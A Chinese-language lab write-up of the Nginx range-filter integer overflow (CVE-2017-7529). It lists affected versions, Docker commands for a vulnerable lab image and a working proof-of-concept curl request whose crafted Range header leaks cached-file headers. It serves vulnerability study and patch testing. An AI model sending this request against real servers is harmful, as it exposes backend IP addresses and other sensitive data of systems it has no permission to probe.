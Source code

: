 ```yaml
---
layout: post
title: "Nginx整数溢出漏洞 (CVE-2017-7529)"
date: 2017-07-14 11:03:29 +0800
image: '/assets/img/'
description: '当使用nginx标准模块时，攻击者可以通过发送包含恶意构造 range 域的 header 请求，来获取响应中的缓存文件头部信息。在某些配置中，缓存文件头可能包含后端服务器的IP地址或其它敏感信息，从而导致信息泄露。'
main-class: 'warning'
color: '#B31917'
tags:
- Nginx
- Integer-Overflows
- Information-Disclosure
categories:
- Nginx
twitter_text: '当Nginx服务器使用代理缓存的情况下攻击者通过利用该漏洞可以拿到服务器的后端真实IP或其他敏感信息。'
introduction: '当Nginx服务器使用代理缓存的情况下攻击者通过利用该漏洞可以拿到服务器的后端真实IP或其他敏感信息。'
---
```


### 漏洞信息

当使用nginx标准模块时，攻击者可以通过发送包含恶意构造 range 域的 header 请求，来获取响应中的缓存文件头部信息。在某些配置中，缓存文件头可能包含后端服务器的IP地址或其它敏感信息，从而导致信息泄露。

参考：[【漏洞分析】Nginx range 过滤器整形溢出漏洞 (CVE–2017–7529)预警分析](http://bobao.360.cn/learning/detail/4102.html)

### 漏洞影响

该漏洞影响所有 0.5.6 - 1.13.2版本内默认配置模块的Nginx只需要开启缓存攻击者即可发送恶意请求进行远程攻击造成信息泄露。

当Nginx服务器使用代理缓存的情况下攻击者通过利用该漏洞可以拿到服务器的后端真实IP或其他敏感信息。

通过我们的分析判定该漏洞利用难度低可以归属于low-hanging-fruit的漏洞在真实网络攻击中也有一定利用价值。

#### 影响版本

Nginx version 0.5.6 - 1.13.2

#### 修复版本

Nginx version 1.13.3, 1.12.1

### 获取环境:

1. 拉取镜像到本地
 ```
$ docker pull medicean/vulapps:n_nginx_1
 ```

2. 启动环境
 ```
$ docker run -d -p 8000:80 medicean/vulapps:n_nginx_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 


### 使用与利用

#### POC

1.访问缓存文件拿到 Content-Length，以 /proxy/demo.png 为例：
{% highlight bash %}
$ curl -I http://127.0.0.1:8000/proxy/demo.png

HTTP/1.1 200 OK
Server: nginx/1.13.1
Date: Wed, 12 Jul 2017 15:57:57 GMT
Content-Type: image/png
Content-Length: 16585
Connection: keep-alive
Last-Modified: Wed, 12 Jul 2017 15:57:57 GMT
ETag: W/"40c9-5543e4fad0d40"
X-Proxy-Cache:: MISS
Accept-Ranges: bytes
{% endhighlight %}

看到 `Content-Length: 16585`, 找个比这个数大的值，例如 17208, 第二个 range 值为 0x8000000000000000-17208, 也就是 9223372036854758600

2.请求时设置 range 如下：
{% highlight bash %}
$ curl -i http://127.0.0.1:8000/proxy/demo.png -r -17208,-9223372036854758600
{% endhighlight %}

看到结果：

![](https://github.com/Medicean/VulApps/raw/master/n/nginx/1/poc.png)

#### PoC 脚本

{% highlight bash %}
$ python poc.py http://127.0.0.1:8000/proxy/demo.png

Vulnerable: http://127.0.0.1:8000/proxy/demo.png
{% endhighlight %}

### 参考链接

* [【漏洞分析】Nginx range 过滤器整形溢出漏洞 (CVE–2017–7529)预警分析](http://bobao.360.cn/learning/detail/4102.html)
* [CVE-2017-7529 Nginx整数溢出漏洞分析](http://galaxylab.org/cve-2017-7529-nginx%E6%95%B4%E6%95%B0%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
